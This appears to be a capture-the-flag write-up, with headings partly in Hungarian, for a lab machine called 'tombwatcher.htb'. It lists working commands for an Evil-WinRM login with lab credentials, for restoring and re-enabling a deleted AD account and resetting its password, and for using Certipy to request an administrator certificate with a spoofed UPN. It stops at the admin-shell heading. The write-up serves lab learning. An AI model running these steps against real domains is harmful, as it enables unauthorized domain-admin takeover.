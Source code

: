 
## User shell & user flag

### Evil-WinRM login:

```
evil-winrm -i 10.10.11.72 -u john -p NoSecHere
```

- **User flag:** C:\Users\john\Desktop\user.txt

---

## Törölt cert_admin AD objektum visszaállítása

- Keresés:
```
Get-ADObject -filter {SamAccountName -eq 'cert_admin'} -IncludeDeletedObjects
```
- Restore:
```
Restore-ADObject -Identity <GUID>
```
- Enable:
```
Enable-ADAccount -Identity cert_admin
```
- Jelszó reset:
```
Set-ADAccountPassword -Identity cert_admin -Reset -NewPassword (ConvertTo-SecureString "NoSecHere" -AsPlainText -Force)
```

---

## ADCS escalation – Domain Admin certi chain

### Sablon enum:

```
certipy-ad find -u cert_admin -p 'NoSecHere' -dc-ip 10.10.11.72 -vulnerable
```

### Admin cert szerzés (régi certipy):

```
python3 entry.py req -dc-ip 10.10.11.72 -ca tombwatcher-CA-1 -u cert_admin@tombwatcher.htb -p 'NoSecHere' -template WebServer -upn administrator@tombwatcher.htb -application-policies 1.3.6.1.5.5.7.3.2
```
- **UPN:** administrator@tombwatcher.htb

### Admin shell certtel (LDAP shell):
